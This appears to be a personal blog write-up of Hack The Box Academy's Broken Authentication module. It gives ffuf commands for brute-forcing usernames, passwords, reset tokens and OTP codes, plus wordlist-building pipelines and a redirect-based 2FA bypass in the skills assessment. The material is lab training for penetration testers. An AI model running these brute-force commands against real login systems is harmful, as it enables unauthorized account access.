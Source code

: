 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Broken Authentication"
description: "Explore this detailed walkthrough of Hack The Box Academy's Broken Authentication module. Learn effective techniques to perform login brute-force attacks, authentication bypass techniques, and elevate your penetration testing skills with step-by-step insights from Zwarts Sec."
date:   2024-10-31 11:50
image:  /images/htb/broken-auth/logo.png
tags:   [authentication,cbbh]
categories: [htbacademy]
---
```


>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/details/80">Broken Authentication</a><br/>
<a href="https://jacozwarts.github.io/images/htb/broken-auth/Broken_Authentication_Module_Cheat_Sheet.pdf">Broken Authentication - Cheat Sheet</a><br/>
<a href="https://www.cirt.net/passwords">CIRT.net - Default Passwords</a><br/>

<br/>

## Notes:

### Create custom wordlists by using grep and rockyou.txt
```
grep '[[:upper:]]' /usr/share/wordlists/seclists/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```
#### `Count number` of line in file:

```
wc -l custom_wordlist.txt
```

#### Using `ffuf` with POST:
```
ffuf -w ./custom_wordlist.txt -u {TARGET} -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```

#### Use seq to generate pins:

```
seq -w 0 9999 > tokens.txt
```

#### Extract details from csv:
```
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```

#### Using ffuf with GET:
```
ffuf -w ./tokens.txt -u http://{TARGET}/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

#### Using ffuf with Session-Token:
```
ffuf -w ./tokens.txt -u http://{TARGET}/{ENDPOINT} -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```
<hr/>

## Skills Assessment
><b>Overview:</b>
You are tasked to perform a security assessment of a client's web application. For the assessment, the client has not provided you with credentials. Apply what you have learned in this module to obtain the flag.

### Explore the App’s Main Features
First, let’s check out the app's basic functions. We see options for logging in and registering, so let’s start by creating a test account with details `Test:Test`

### Make Note of Password Requirements
During registration, the app shows us its password criteria. Let’s keep that in mind—this info will come in handy when we need to create a custom wordlist for brute-forcing later.

![Password Criteria](/images/htb/broken-auth/skills-assessment-password-criteria.png)


### Log In with Our Test Account
Create an account using `Test:Password1234`. Now that we’ve got the account set up, let’s log in. Success! We’re redirected to profile.php.

### Spot the Restricted Access Message
On the profile page, we see a message saying, `"You do not have admin privileges. The site is still under construction and only available to admins at this time."` Since no other features are available, it’s clear that admin access will be the key to progressing further.

![Profile Page](/images/htb/broken-auth/skills-assessment-profile-page.png)

### Experiment with Brute-Forcing Admin Login
Let’s test the login form to understand how it responds to different credentials:

First, we try `admin:admin`, which gives us an `"Unknown username and password"` error.
Next, we use our account's username `Test` with an incorrect password, which returns `"Invalid Credentials"`.
Now we know what specific error messages to look for, giving us a way to validate results in our brute-force attempt.

### Pick Wordlists for the Brute-Force Attack
To find the correct username, we’ll start by using `seclists/Usernames/xato-net-10-million-usernames.txt`.
Once we have a valid username.

```
ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://{TARGET}:{PORT}/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=1" -fr "Unknown username or password."
```

### Creating the password wordlist

To target the login credentials more efficiently, we’ll build a custom password list that meets the `password criteria` we noted earlier. We’ll start with `rockyou.txt` and use `grep` to filter only the passwords that match the format.

Grep function to extract passwords from wordlist:

```
grep -E '^[[:alnum:]]{12}$' /usr/share/wordlists/rockyou.txt | grep -E '[0-9]' | grep -E '[a-z]' | grep -E '[A-Z]' > passwords.txt
```

### Launch the Brute-Force Attack
Now that we have a wordlist tailored to the password criteria, we’re ready to begin our brute-force attack to find valid credentials. Using the `username` we found earlier and custom password wordlist, we’ll brute-force the login until we find the valid credentials.

Find valid credentials:
```
ffuf -w passwords.txt -u http://{TARGET}:{PORT}/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username={username}&password=FUZZ" -mc 302
```

### Handle the OTP Prompt
Once we’ve successfully logged in with the valid credentials, we’re met with an OTP prompt. However, there’s no indication of how long the OTP pin should be, which means we can’t effectively brute-force the OTP. This prompts us to consider alternative methods for bypassing the OTP.

![OTP Page](/images/htb/broken-auth/skills-assessment-password-otp.png)

### Attempt Direct Access to `profile.php`
Since we identified `profile.php` earlier when logged in with our `Test` account, let’s try directly accessing this page using the valid credentials we found. This time, the UI redirects us to an OTP page (2fa.php). Here, we notice a 302 redirect response from profile.php. Upon investigating this `302` request more closely, we can spot the flag embedded within the request itself.

![Profile Page](/images/htb/broken-auth/skill-assessment-redirect-request.png)


<hr/>